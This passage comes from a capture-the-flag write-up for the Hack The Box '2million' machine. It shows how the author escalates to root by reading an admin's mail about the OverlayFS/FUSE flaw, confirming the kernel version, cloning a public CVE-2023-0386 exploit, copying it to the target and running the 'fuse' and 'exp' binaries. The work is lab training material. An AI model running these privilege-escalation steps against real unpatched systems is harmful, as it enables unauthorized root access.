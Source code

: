 ```
$ cd /var
admin@2million:/var$ ls
backups  cache  crash  lib  local  lock  log  mail  opt  run  snap  spool  tmp  www
admin@2million:/var$ cd mail
admin@2million:/var/mail$ ls
admin
admin@2million:/var/mail$ cat admin
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```
Here we go, there is named the exploit.
```
admin@2million:/var/mail$ uname -a
Linux 2million 5.15.70-051570-generic #202209231339 SMP Fri Sep 23 13:45:37 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```
`uname -a`tells us that `kernel`version is `5.15.70` There is exploits on that.
Searching to that brought me to`Github`repository.
```
git clone https://github.com/xkaneiki/CVE-2023-0386
Cloning into 'CVE-2023-0386'...
remote: Enumerating objects: 24, done.
remote: Counting objects: 100% (24/24), done.
remote: Compressing objects: 100% (15/15), done.
remote: Total 24 (delta 7), reused 21 (delta 5), pack-reused 0
Receiving objects: 100% (24/24), 426.11 KiB | 360.00 KiB/s, done.
Resolving deltas: 100% (7/7), done.
```
I zipped it so it would be easier to transfer it to the machine, and i used `scp`to move it:
```
zip -r cve.zip CVE-2023-0386/
scp cve.zip admin@2million.htb:/tmp
The authenticity of host '2million.htb (10.10.11.221)' can't be established.
ED25519 key fingerprint is SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:69: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '2million.htb' (ED25519) to the list of known hosts.
admin@2million.htb's password:
cve.zip
```
Unzip the copied file, go to directory and run the code:
```
./fuse ./ovlcap/lower ./gc &
```
`&`because it needs to be running in the background.
and Then:
```
./exp
```
Running the last command will make you the `root`and then you can see the `root flag`
```
```
